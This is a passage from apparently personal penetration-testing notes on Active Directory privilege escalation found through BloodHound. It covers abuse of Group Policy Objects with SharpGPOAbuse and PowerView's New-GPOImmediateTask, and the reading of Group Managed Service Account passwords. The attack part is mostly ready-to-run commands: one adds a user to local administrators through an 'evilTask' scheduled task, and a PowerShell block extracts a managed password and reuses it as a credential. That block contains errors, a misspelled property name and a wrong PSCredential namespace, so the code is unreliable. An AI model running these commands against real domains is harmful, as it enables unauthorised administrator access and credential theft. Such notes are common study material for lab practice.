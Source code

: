 After running SharpGPOAbuse.exe, update the local group policy for the changes to take effect.

```bash
gpupdate /force
```

You’ll see that our user was added to administrators

![Untitled](Bloodhound%20Privesc%20dd6fade960264426a07c9c342c846f05/Untitled%209.png)

### New-GPOImmediateTask

Another way to exploit this is to use [PowerView’s `New-GPOImmediateTask` function](https://github.com/3gstudent/Homework-of-Powershell/blob/master/New-GPOImmediateTask.ps1). This works by creating a scheduled task and immediately executing it. It might not come in the script so just execute it here: [https://github.com/3gstudent/Homework-of-Powershell/blob/master/New-GPOImmediateTask.ps1](https://github.com/3gstudent/Homework-of-Powershell/blob/master/New-GPOImmediateTask.ps1). 

```bash
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```

# ReadGMSAPassword

This allows you to read the randomly-generated password of a Group Managed Service Account (GMSA). [Look here](https://youtu.be/c8Qbloh6Lqg?t=3715) for ippsec doing it on Search.htb

```nasm
$gmsa = get-adserviceaccount [CN=_OF_ACCOUNT] -properties msDS-MnanagedPassword
$mp = $gmsa.'msDS-ManagedPassword'

$secpwd = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
$cred = New-Object System.Automation.PSCredential "[CN=_OF_ACCOUNT]",$secpwd
# test that it works
Invoke-Command -ComputerName 127.0.0.1 -cred $cred -ScriptBlock {whoami}
```
